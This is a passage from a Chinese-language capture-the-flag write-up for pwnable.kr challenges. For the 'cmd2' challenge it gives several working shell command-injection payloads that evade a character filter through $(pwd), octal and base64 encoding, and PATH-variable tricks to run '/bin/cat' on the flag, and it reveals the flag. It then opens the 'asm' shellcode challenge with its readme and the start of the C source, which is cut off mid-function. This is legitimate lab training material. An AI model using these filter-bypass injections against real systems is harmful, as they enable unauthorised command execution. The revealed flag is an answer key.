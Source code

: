 参考了网上，还有各种技巧。

1.花式利用`pwd`。
说种最简单的，就是到根目录下，此时执行pwd会输出“/”，所以执行
```
./home/cmd2/cmd2  '""$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fl*""'  
```

2.利用`encode`。

```
./cmd2 '$(echo "\57")bin$(echo "\57")cat f*'
```

```
./cmd2 'cd ..; cd ..; cd ..; cd usr; cd bin; $(echo "L2Jpbi9jYXQgICAvaG9tZS9jbWQyL2ZsYWcK" | .$(echo "\57")base64 -d)'
```

3.其他未知的神秘力量：

```
./cmd2 "\$(printf '%c%c%c%c%c%c%c%c %c%c%c%c%c%c' \$(set \$(printf '%c%c%c%c%c' \$ P A T H); set \$(eval echo \$1); echo \${1%no_command_execution_until_you_become_a_hacker}) b i n \$(set  \$(printf '%c%c%c%c%c' \$ P A T H); set \$(eval echo \$1); echo \${1%no_command_execution_until_you_become_a_hacker}) c a t . \$(set \$(printf '%c%c%c%c%c' \$ P A T H); set \$(eval echo \$1); echo \${1%no_command_execution_until_you_become_a_hacker}) f l a g)"  
```

```
./cmd2 'for file in *
> do
> read line < $file
> echo $line
> done'

```

flag：`FuN_w1th_5h3ll_v4riabl3s_haha`



### asm

> Mommy! I think I know how to make shellcodes
>
> ssh asm@pwnable.kr -p2222 (pw: guest)

readme:

```
once you connect to port 9026, the "asm" binary will be executed under asm_pwn privilege.
make connection to challenge (nc 0 9026) then get the flag. (file name of the flag is same as the one in this directory)
```

源码：

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
```
